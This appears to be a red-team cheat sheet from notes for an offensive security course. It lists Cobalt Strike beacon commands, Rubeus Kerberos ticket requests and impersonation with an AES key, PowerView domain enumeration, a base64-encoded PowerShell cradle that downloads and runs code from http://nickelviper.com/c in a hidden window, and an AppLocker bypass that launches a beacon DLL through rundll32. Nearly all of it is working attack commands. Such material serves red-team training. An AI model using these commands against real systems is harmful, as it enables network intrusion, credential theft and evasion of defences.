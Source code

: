 ```
spawnto x64 %windir%\sysnative\dllhost.exe
spawnto x86 %windir%\syswow64\dllhost.exe
```

```
ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe
ak-settings spawnto_x86 C:\Windows\SysWOW64\dllhost.exe
```

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /domain:DEV /opsec /nowrap
```

List listening bindings
```
run netstat -anp tcp
```

To get beacon to send the info of itself to c2
```
checkin
```

Impersionation with ticket

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:ACME /username:username /password:FakePass /ticket:doIFwj[...]MuSU8=
setal_token xxx

```

Import Powerview

```
powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
```

Convert SID
```
powershell ConvertFrom-SID
```

Pwshell encode
```
PS C:\> 

$str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/c"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))



powershell -w hidden -enc blabla
```

## Recon

[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/38125201-powerview)

### Get-DomainUser
Get users and propierties
```
powershell Get-DomainUser -Properties DisplayName, MemberOf | fl
```


### Get-DomainComputer
Get computers

```
powershell Get-DomainComputer -Properties DnsHostName | sort -Property DnsHostName
```

### Get-DomainGroup

Return all domain groups or specific domain group objects.

```
powershell Get-DomainGroup | where Name -like "*Admins*" | select SamAccountName
```

### Get-DomainGPOUserLocalGroupMapping

Enumerate the machines where a specific domain user/group is a member of a specific local group

```
powershell Get-DomainGPOUserLocalGroupMapping -LocalGroup Administrators | select ObjectName, GPODisplayName, ContainerName, ComputerName | fl
```

## Applocker sus

As previously mentioned, DLL enforcement is not commonly enabled which allows us to call exported functions from DLLs on disk via rundll32.  Beacon's DLL payload exposes several exports including DllMain and StartW.  These can be changed in the Artifact Kit under src-main, dllmain.def.

C:\Windows\System32\rundll32.exe http_x64.dll,StartW
